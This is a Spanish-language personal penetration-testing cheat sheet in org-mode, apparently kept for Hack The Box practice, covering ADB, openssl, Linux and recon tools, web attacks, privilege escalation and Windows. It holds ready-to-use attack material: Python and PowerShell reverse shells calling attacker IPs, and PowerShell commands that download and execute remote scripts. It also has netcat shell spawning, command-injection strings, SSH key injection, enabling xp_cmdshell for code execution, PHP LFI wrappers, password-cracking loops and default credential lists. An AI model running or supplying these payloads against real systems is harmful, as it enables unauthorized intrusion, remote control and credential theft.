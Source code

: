 * Notes
** Android
*** Anbox + ADB
    permite ejecutar apks en un container
    requiere instalar snap
    imagen se guarda en /snap/anbox/186/android.img

   -iniciar servicio snapd
       sudo systemctl start snapd
   
   -verificar que snap tenga anbox
       sudo snap start anbox 
       snap list

EJECUTAR
   -lanzar appmanager (?)
       sudo snap run anbox.container-manager
   
   -lanzar anbox
       anbox session-manager
       /snap/bin/anbox launch --package=org.anbox.appmgr --component=org.anbox.appmgr.AppViewActivity

INSTALAR APPS
   -verificar que adb detecte el contenedor
       adb devices
       
   -instalar apk usando adb
       adb install MyApp.apk
     
*** ADB
    configurar proxy
        adb shell settings put global http_proxy <tunX>:8080 (interfaz HTB, permite usar burp)
    quitar proxy
        adb shell settings put global http_proxy :0
    obtener y reemplazar(requiere root) hosts file
        adb pull /system/etc/hosts .    (al directorio actual)
        (editar)
        adb push hosts /system/etc
*** apktool

*** Directory structure
    /boot
    /system
        /etc/
            hosts
    /recovery
    /data
    /cache
    /misc
    /sdcard
    /sd-ext
** Archivos
*** pfx
    PKCS#12 (public key cryptography standard)
    abrir haciendo doble clic o con openssl
    contiene certificado SSL(llave publica), llave privada e intermediate certificate.


    LLAVE PRIVADA(este archivo tambien contiene el cert)
openssl pkcs12 -in file.pfx -nocerts -out private.key
openssl pkcs12 -in file.pfx -nocerts -out private.key -nodes   (si te pide PEM)


    LLAVE PUBLICA/CERTIFICADO
openssl pkcs12 -in file.pfx -clcerts -nokeys -out cert.crt

    usar crackpkcs12 (con rockyou) para crackear (tardado)
        crackpkcs12 -d /usr/share/wordlists/rockyou.txt file.pfx

    o bien sacar el hash (pfx2john) y crackear con john
        pfx2john file.pfx >filehash.hash
        john -w=/usr/share/wordlists/rockyou.txt filehash.hash --rule /usr/share/john/rules/rockyou-30000.rule

** Ataques
*** Brute force
    /usr/share/wordlists/rockyou.txt

MANUAL
cat rockyou.txt| 
while read p; do 
  echo trying $p; 
  openssl pkcs12 -in "xyz.p12"  -passin "pass:$p"; 
  RC=$?; if [ $RC -eq 0 ]; then 
break; fi ; done

*** Inyeccion de comandos bash
    "a; bash -p"
    "a && bash -p" 
*** Reverse shell
    revshells.com
**** Linux con Python
1. Lanzar listener en máquina atacante
   nc -lvp 1337

2. En máquina víctima lanzar socket a la IP atacante (puerto en escucha)
python -c 'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.16.2",1337));
os.dup2(s.fileno(),0); 
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);'

**** Windows powershell
Descargar y ejecutar con powershell (powershell -c ./revshell NO LLEVA EXTENSION AL EJECUTAR)
     
ONE-LINER PARA REVSHELL(NO SIEMPRE FUNCIONA)
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.10.14.64",1337);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
 
DESCARGA Y EJECUTA ARCHIVO POWERSHELL(PS1):
opcion1
powershell -c "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.36/revshell.ps1\");"
     donde revshell.ps1:
     $client = New-Object System.Net.Sockets.TCPClient('10.10.14.36',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();

opcion2                                                                 tu(servidorweb)               (ruta destino en windows)
powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://10.10.14.5/ms11-046.exe', 'c:\Users\Public\Downloads\ms11-046.exe')"

DESCARGA ARCHIVO:
Powershell.exe invoke-webrequest -Uri http://10.10.14.18/bfill.exe -OutFile bfill.exe



*** Inyección de llaves ssh
     si se logra inyección de comandos, puedes inyectar llave en
     /home/user/.ssh/authorized_keys       (append)
     /root/.ssh/authorized_keys

     tambien puedes crear link simbolicos (si tienes privilegio root para crear/descargar archivo)
     ln -s /root/.ssh/authorized_keys llave_inyectada.pub

     usa scp para enviar archivos
** C
*** access
#+BEGIN_SRC c
    int access(const char *pathname, int mode);
#+END_SRC 
    indica si el proceso puede acceder a un archivo
    *si pathname es symlink, se dereferencia!!!
    utiliza el REAL uid, NO el effective uid
    se puede explotar mediante symlinks:
      si el usuario que lo lanza tiene permiso para el symlink, aunque no tenga
      para el archivo al que apunta
    mode:
         7 rwx
         6 rw
         5 rx
         4 r
         2 w
         1 x
         
    
*** geteuid
*** seteuid
*** snprintf
** Common credentials/passwords
para HTB, prueba el mismo nombre de usuario

   
admin123
root123
password1
administrator1
changeme1
password123
qwerty123
administrator123
changeme123
** Linux general
*** bash
**** parametros posicionales
     $0      : nombre del shell o programa actual
     $1      : primer argumento
     ${n}    : n-avo argumento
     $* | $@ : todos los argumentos
**** AND logico &&, -a
     evitar -a, es ambiguo
**** OR logico ||, -o
     evitar -o, es ambiguo
    comando1 || comando2 || comando 3 
       si comando1 devuelve false, ejecuta comando2
       solo si comando1 y comando2 devuelven false se ejecuta comando3
**** if
     if [ expr ]; then
       [ command ]
     else
     fi
***** tests:
     -n
     -d
     -z
*** permisos
**** sticky bit (t)
     solo el dueño o root puede eliminar 
     chmod +t
     chmod 1ugo
**** setuid (s)
     cuando un archivo tiene s en los permisos significa que cuando un
     usuario lo ejecuta lo hace como el dueño del archivo
     chmod u+s
     chmod 4ugo 

     el effective id es el del dueño del archivo, no de quien lo ejecuta
     (a diferencia del caso comun que euid y uid son el mismo)

     bash -p lanza un shell
**** setgid (s)
     permite ejecutar un archivo como si fueras miembro del grupo dueño
     chmod g+s
     chmod 2ugo

*** archivos/servicios
**** /etc/cron
     cron: DAEMON, ejecuta los comandos especificados
     crontab(file): contiene instrucciones para el daemon cron
                    cada usuario tiene un crontab file
     crontab(instruccion): "instala"/"desinstala" o lista las tablas
     si la maquina esta apagada a la hora que le toca a un cronjob, no se ejecuta
       para eso existe el paquete anacron
**** /etc/passwd
**** /etc/shadow
     guarda contraseñas cifradas

*** stdin/stdout/stderr
**** 2>/dev/null
     redirige (no imprime) errores

*** usuarios
    useradd <user>
    passwd <user>: enter pass
** Linux Commands
*** 7z
    7z l <archivo.zip>: lista todos los archivos (incluso ocultos) en un zip
*** amass
    OWASP Amass
    enumeracion de DNS/dns:
amass enum -passive -d <url> -src


    visualiza el grafo de dominios:
amass viz -d3 -d <URL>
*** base64
    uso: base64 [-d] file
  encode: no option
  decode: -d

*** bash
    lanza shell
    -p : si euid y real uid son diferentes(ejecutables setuid), se usa euid
           al lanzar el shell
*** bzip2
    -d decompress (does not overwrite)
**** descripcion
     Burrows-Wheeler block sorting compression, Huffman coding

*** cat
    archivos con simbolo - en el nombre
    cat ./-

*** crackpkcs12
    mas info https://github.com/crackpkcs12/crackpkcs12
    -h: help
    -d file: dictionary

    crackpkcs12 -d /usr/share/wordlists/rockyou.txt file.pfx

*** cut
    elimina partes de lineas de algun archivo/stdin e imprime en stdout
    -b selecciona solo estos bytes
      echo $(string) | cut -b 1-10 (muestra primeros 10 bytes)
    -c selecciona solo estos chars
      echo $(string) | cut -c 1-10 (muestra primeros 10 chars)

    -d delimiter, default es TAB (SOLO CON -f)
    -f selecciona solo estos campos(fields)
      echo $(string) | cut -d ' ' -f 1,2 (separa por espacios, muestra primeras 2)

*** crontab
    modifica crontab que ejecuta el cron daemon
   -u especifica usuario: -u alex
   -l muestra crontab actual
   -r borra crontab actual
   -e edita crontab
*** diff
    muestra diferencias entre archivos
    diff file1 file2
*** dnsrecon
dnsrecon -d <dominio> 
dnsrecon -d <dominio> -t axfr
*** evil-winrm
    
*** fcrackzip
    permite hacer bruteforcing a zips
    password protected zips
    -b: usa todas las combinaciones posibles de las letras ingresadas
    -D dictionary: usa un archivo
    -p string: si usas -D, es el nombre del diccionario
               si usas -b, es el conjunto de letras
    -u zip: unzip

    fcrackzip -D -u file.zip -p /usr/share/wordlists/rockyou.txt
    
*** file
   obtiene informacion sobre un archivo(esta zipeado, cifrado, ascii, etc)  

*** find
  uso: find [in this path] [! | -not][tests]
       find -type f -user alex
**** TESTS
***** -executable
***** -group
***** -name | -iname(case insensitive) 
***** -newer
***** -size
    uso: find -size 1024c
       b bloques de 512 bytes
       c bytes
       w words (2 bytes)
       k KB
       M MB
       G GB
***** -type
       b bloque
       c caracter
       d directorio
       p pipe
       f file
       l symlink
       s socket
    
***** -user

**** exec
     para cada archivo/directorio encontrado, ejecutar un comando
     en {} se sustituye el nombre del archivo actual
     '' para evitar ejecutar si tiene puntos o algo
     find . -type f -exec file '{}' \; (ejecuta file en cada archivo en el dir)
       
*** ftp
   Conexion:
    ftp host [port]

   Revisa si permite anonymous login!! username: anonymous

    Interaccion y transferencia
    ftp>help
    ftp>ls
    ftp>get file.txt
    ftp>put file.txt 
*** git
    git clone <repo> [/.../dest/dir]
    git branch -a         : mustra todas las branches del repo
    git checkout <branch>
    git log               : muestra historia de commits
            -p            : mustra commits y los cambios hechos. (en una ventana de less)
    git tag               : muestra tags
            "string"      : incluye una cadena al buscar tags
            -a <tagNumber> [-m "message"]  : crea annotated tag
            -d <tagNumber>                 : elimina tag
    git tag -a <number> <checksum>   : permite taggear commits viejos
    git show <tag>        : muestra contenidos del tag (commit taggeado)
                                                        o nombre del commit
*** grep
    -i ignorecase
    -v invert selection
    uso:
    grep [options] pattern file
*** gzip
    -d decompress (needs to be .gz file) overwrites file.

*** html2text
    convierte html a texto legible. util con curl, wget, respuestas de peticiones
  
*** id
    muestra ids de usuario y grupos para algun usuario
    uso: id [usuario]
    sin opcion: usuario actual
    -g: group id
    -G: all groups
*** impacket
    impacket-paquete -h
**** mssqlclient
    impacket-mssqlclient username:pass@10.10.10.10 -windows-auth

    -windows-auth DEFAULT OFF!

    aunque la credencial tenga \ impacket es linux, usa /
    una vez autenticado puedes intentar descargar(desde la victima) binarios
       para RCE

    xp_cmdshell es un PROCEDURE que permite ejecutar comandos a nivel consola


    SQL SERVER
    SQL> help
    SQL> sp_configure;     # muestra opciones
    SQL> exec sp_configure 'show advanced options', 1;  reconfigure;
    SQL> exec sp_configure 'xp_cmdshell', 1;     
    SQL> enable_xp_cmdshell                           #igual que el de arriba

    SQL> xp_cmdshell {comando}                # requiere admin privs
    SQL> xp_cmdshell "powershell -c COMANDO; COMANDO"
    SQL> xp_cmdshell "powershell -c ls "C:/"
    SQL> 
    SQL> 
    SQL> 
    SQL> select name from master.dbo.sysdatabases; # lista DBs
    SQL> use DB;                                   # selecciona BD
    SQL> select * from DB.information_schema.tables; # lista tablas de una BD
    SQL> 
    SQL> 
    SQL> 
    SQL> 
    SQL> 
    SQL> 
**** psexec
     ejecuta shell remoto en windows, (mediante SMB??)
     impacket-psexec user@host
*** ltrace
    traces LIBRARY CALLS
    call tracer: ejecuta un comando(incluyendo ejecucion de binarios),
                 interceptando y mostrando syscalls y señales
    ltrace <command>
           -o <file>  : guarda el resultado en archivo en lugar de mostrarlo

    resultado:
    syscall(arguments) = exit_status
*** md5sum
    obtiene MD5:
    md5sum <archivo>
    echo string | md5sum
*** more
    visualiza archivos
    toma en cuenta el tamaño de la ventana!
    q salir
    v lanza tu editor
*** mysql
    herramienta para mariaDB
    usuario root a veces no requiere password

    mysql -u root -P 3306 -h 10.10.10.10


    MYSQL
    show databases;
    use database;
    show tables;
    database.
*** nmap
    mas enumeracion, busca el servicio
    /usr/share/nmap/scripts
    nmap -p339 --script=SCRIPTNAME host
    nmap -sV 
    
    DESCRIPCION
    manda pings a los puertos, si responden los considera activos y escanea servicios

    -Pn skips host discovery (no manda pings, escanea todo)
                                       pings pueden alertar al firewall
    -sV service version
    -sC default scripts, muestran mas info pero son intrusivos y algunas empresas
          no lo permiten
    -T5 fastest
    -A identify OS, traceroutes,  build, etc
    -p scan ALL PORTS
    -script vuln: automaticamente busca VULNS!!!! esta opcion va antes del host
    
**** scripts
    http-enum: intenta con un pequeño diccionario, tipo dirbuster-small.txt
        nmap --script http-enum -p80 host

*** nc
    netcat: TCP/UDP utility
    reads and writes data in the network
**** Client mode(connects/"sends")
     si necesitas enviar varias lineas, cat envia una por una
     nc [options} <host> [port]
     echo "mensaje" | nc <host> port
     nc <host> port
         -> mensaje
         
    especifica que se lance un shell
    nc -e /bin/sh nc host port
**** Server mode (listens)
     nc -l -p port 
     nc -nlvp port

*** openssl
**** Extracting
    permite extraer certificados de archivos compatibles
    
    archivos pfx (PKCS#12)
    -extraer certificado
openssl pkcs12 -in Certificate.pfx -clcerts -nokeys -out Certfilechain.crt

    -extraer llave publica
openssl pkcs12 -in file.pfx -out cert.pem

    -extraer llave privada
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -nodes -out key.pem
**** Client-server
    modos cliente y servidor similares a netcat, pero TLS/SSL
     realiza conexiones, obtiene informacion de certificado TLS/SSL
     puerto default es 4433
     -ign_eof evita que se cierre la conexion
     uso:
     openssl s_client ign_eof -connect <host>:<port>
       -> mensaje

*** python
servidor web
python3 -m http.server 80
*** seq
    genera secuencias
    seq 1 100 
    -w permite leading zeroes   -> 001,002,...
*** smbclient
    1. tu maquina lanza connection request
    2. servidor lanza authentication request
    3. tu maquina lanza authentication response, default tu nombre de maquina
    4. servidor lanza connection response

    carpetas que acaban con $ son administrativas
    cuenta default: Administrator
 
   --help 
   -L list
   -N nopassword
   -U user

   
   smbclient -L host
                     -U Administrator
   smbclient \\\\host\\folder

   smb: \> help
   smb: \> cd dir
   smb: \> get file.txt
  
*** smbmap
     enumera drives SMB en todo un dominio, identifica puertos
    
    smbmap -H host_ip
*** sort
    devuelve las lineas ordenadas
    uso: sort <file>
    -r reverse order
    -n numerically

*** stat
    muestra status de archivo(incluyendo binarios de sistema) o carpeta:
    tamaño, fechas creacion, modificacion, acceso, inode, etc
    -c mismo que --format
    --format %U (dueño)
             %G (grupo)
             %Y (ultima fecha de modificacion)
             
*** strace
    traces SYSTEM CALLS 
*** ssh
 CONEXION
    ssh -p<port> <user>@<host>
    ssh -i <key> <user>@<host>  (usando llave !! permisos 600!!)
    ssh -p<port> <user>@<host> comando  (ejecuta commando una vez logeado)
    
  GENERAR LLAVES
ssh-keygen
introduce nombre para generar en carpeta actual, si no se va a .ssh
**** scp
secure copy

usando llave:
    scp -i /home/kali/.ssh/id_rsa archivo user@host:path
    ejemplo
       scp -i id_rsa linenum.sh paul@routerspace.htb:~
    
*** strings
    outputs only printable strings in a file

*** sublist3r
sublist3r --help
sublist3r -d dominio.com
*** tar
    uso: tar -xf archivo.tar
    -c create
    -x extract
    -f use file

*** telnet
    telnet -l user host port
    (try root!)
*** theHarvester
    OSINT, busca información sobre un dominio, empleados, emails, etc.
theHarvester --help theHarvester -d <dominio/nombre de la empresa> -b google,linkedin,bing,twitter,sublist3r
*** timeout
    ejecuta comando con limite de tiempo. si se pasa lo mata
    -s especifica SIGNAL (ver kill) 
    -k si por alguna razon no se termina el proceso, manda señal KILL tras añadir esta duracion

    uso:
    timeout -s 9 60 [command]
    timeout 10m ping <host>
            5 (segundos)
*** tr
    "translate" (substitute characters)
    stego, rot13
    uso: tr 'conjunto' 'transformacion'
**** rot13
     tr 'a-zA-Z' 'n-za-mN-ZA-M'

*** uniq
    -u prints unique lines (must be sorted, i think)
    -c prints every line once, counts occurrences

*** unzip
    -P pass: password
*** vim
    :e cambia de archivo - util para explotar si tienes acceso a vim
    :shell LANZA SHELL**** PELIGRO
    :set shell=/bin/sh
               /bin/bash
               /usr/bin/zsh
*** wfuzz
   directory busting:
wfuzz -c --hc=404 -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.11.135/FUZZ


busting para archivos con extension .php 
wfuzz -c --hc=404 -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.11.135/FUZZ.php

    -hc: hide code
    -t:  numero de hilos/threads
    -w:  wordlist
    -L:  en caso de estado 302(redirect) sigue al redirect y devuelve el estado de la pagina final
    FUZZ: aqui se sustituye
*** wget
    wget URL                            #info for site
    wget HOST/file -outfile NEWNAME     #download file from a host
    
    -v verbose
*** whatweb
     identifica servicios wordpress, joomla, etc
     whatweb <host>

*** xfreerdp
    Permite conectarse a RDP windows

    xfreerdp /v:10.0.0.10 /u:alex /p:password
             /cert:ignore
    
    usuario comun: Administrator
*** xxd
    hex dump
    
** Privilege escalation/privesc
*** linux
sudo -l (prueba qué comandos puedes ejecutar)
uname -a (version kernel, busca vulns)
cronjobs
inyección de llaves ssh


linpeas, linenum
** Reconaissance
 IP 
    host 
    nslookup
    traceroute

DNS
/seclists/Discovery/DNS/...
     dnsrecon
     dig
     dnsdumpster.com
     amass
     sublist3r
     knockpy
 
ZONE TRANSFERS
     dnsrecon
     fierce

firewall/proxy: wafw00f

OSINT
     theHarvester
     whois
     netcraft.com
     dnsdumpster.com
     whatweb
    
PORTS
     nmap
     nikto

** Web
   wappalyzer, busca vulns
   whatweb
   cmsmap
*** Apache
    pagina vacia -> curl para ver mas
*** Jenkins
     Credenciales default:
     | USER  | PASSWORD  |
     |-------+-----------|
     | admin | password  |
     | admin | admin     |
     | root  | root      |
     | root  | password  |
     | admin | admin1    |
     | admin | password1 |
     | root  | password1 |

     links
https://github.com/gquere/pwn_jenkins
https://book.hacktricks.xyz/pentesting/pentesting-web/jenkins

Corre scripts en Groovy!
RCE https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

*** WordPress
    hasta 5.2.3:
     añadir sufijo “?static=1” a la URL, se pueden observar publicaciones privadas
***** wpscan
      wpscan --url URL 
*** Burp Suite
**** proxy
     intercepta peticiones y respuestas HTTP
     proxy->intercept
       intercept is on
       lanza chromium preconfig o usa foxyproxy
*** Firefox
    F12: Developer mode
    Storage: guarda cookies
*** Directory busters
**** dirbuster
     seleccionar lista /usr/share/dirbuster/...
**** gobuster
     especifica primero dir/dns/...
     -h
     -u url
     -x extensions
     -w wordlist

     gobuster dir -u host -w wordlist [-x php,html,txt]

     WORDLISTS
     /usr/share/seclists/
     /usr/share/wordlists/
     /usr/share/wordlists/dirb/big.txt
*** robots.txt
    Disallow lista carpetas o archivos a los que no quieres que accedan crawlers
              o indexen los motores de busqueda
*** Spoofing requests
**** con burpsuite + foxyproxy
**** tamper data
     añadir campo Referer
    
*** Service Identifiers
    wappalyzer(firefox)
    whatweb(CLI)
*** URLs
    .../index.php?page=/folder_on_machine

*** PHP
    sintaxis
http://domino/archivo.php?parametro=valor

haz dirbusting en sitio principal para obtener archivos php.

Si obtienes pagina en blanco sin error, prueba a fuzzear parametros que permitan acceder a archivos
wfuzz ... dominio/archivo.php?FUZZ=/etc/passwd



WRAPPER para LFI
php://filter/resource=index
php://filter/convert.base64-encode/resource=index

** Windows
checa privilegios
corre winpeas
*** DOS (y PS)   
net user             (lista usuarios)
net user <usuario>   (lista info del usuario)
whoami
whoami /priv  (lista privilegios)
*** Powershell
ejecutables ./winpeas.exe 
HISTORIAL: C:\Users\usuario\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
    ls, cd, pwd
    netcat: 
       https://github.com/int0x33/nc.exe 

    wget
       wget HOST/file -outfile NEWNAME

